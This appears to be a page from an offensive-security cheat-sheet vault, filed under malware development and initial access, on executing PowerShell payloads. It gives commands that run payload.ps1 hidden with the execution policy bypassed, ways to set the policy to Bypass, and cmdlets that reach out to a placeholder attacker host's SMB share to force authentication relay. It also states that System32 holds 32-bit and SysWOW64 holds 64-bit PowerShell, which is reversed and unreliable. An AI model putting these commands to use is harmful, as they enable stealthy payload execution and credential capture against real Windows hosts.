 ## 03 - Execute Payload

System32 is for 32-bit powershell payloads

```
C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -w hidden -nologo -noni -nop -ex bypass -f payload.ps1

C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -w hidden -nologo -noni -nop -ep bypass -f payload.ps1
```

SysWOW64 is for 64-bit powershell payloads

```
C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe -nop -ep bypass -f payload.ps1

C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe -w hidden -nologo -noni -nop -ep bypass -f payload.ps1
```

### 3.1 - Execution Policy

```
PS C:\> Set-ExecutionPolicy Bypass -Scope <CurrentUser | Process> [-File C:\path\to\payload.ps1

PS C:\> $Env:PSExecutionPolicyPreference="bypass"
```

Execute cmdlets to perform SMB authentication relay.

```
PS C:\> Get-ChildItem \\<attacker_IP>\<share_name>

PS C:\> Get-Content \\<attacker_IP>\<share_name>\payload.txt

PS C:\> Start-Process \\<attacker_IP>\<share_name>

PS C:\> Resolve-DnsName -LlmnrOnly Snare 2> $Null
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/Malware Development/Bypass Defenses/Obfuscation/Techniques/Modify File/Cross Platform/PowerShell||Malware Development: PowerShell Obfuscation Techniques]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/Malware Development/Bypass Defenses/Obfuscation/Techniques/String Manipulation/Windows/Batch|Malware Development: Batch Obfuscation Techniques]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Shell Handler/Windows/Powercat|Shell Handler: Powercat]]
